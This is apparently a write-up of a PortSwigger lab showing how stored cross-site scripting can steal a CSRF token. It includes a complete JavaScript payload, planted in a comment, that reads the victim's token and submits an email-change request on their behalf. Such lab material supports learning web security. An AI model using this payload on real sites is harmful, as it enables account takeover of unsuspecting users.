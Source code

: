 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/26c6204e-8658-4c2e-a811-9990eb2ca7c5)

## Solution :

Log in using the credentials provided. On your user account page, notice the function for updating your email address.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/23fa623a-9610-48d0-9067-3ea11ca475b5)

 ‘Your email is:’ has been updated to your new email.

 >what we see here is cross-site request forgery token and the idea  is we can't post to this particular endpoint and change our passward without the cross site request forgery token this really what stops us from being able change the email of anthor user because simply we won't have access to their cross -site request forgery token there is a situation where the token is not going to able to protect a user from someone changing their eamil and that if there is also a possible cross-site  scripting attack the idea behind
cross-site scripting attack is it can execute arbitary javascript in the victim's and it has access to the Dom and can access the cross-site request forgry token so javascript can take that token and submit a malicious request on behalf of the victim.

Crafting the Payload

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5b2d26c1-137b-438d-a7c2-a0abd2fc74cb)

This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`

Lab SOlved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/452cd425-877c-46b8-8436-5cae335e9630)


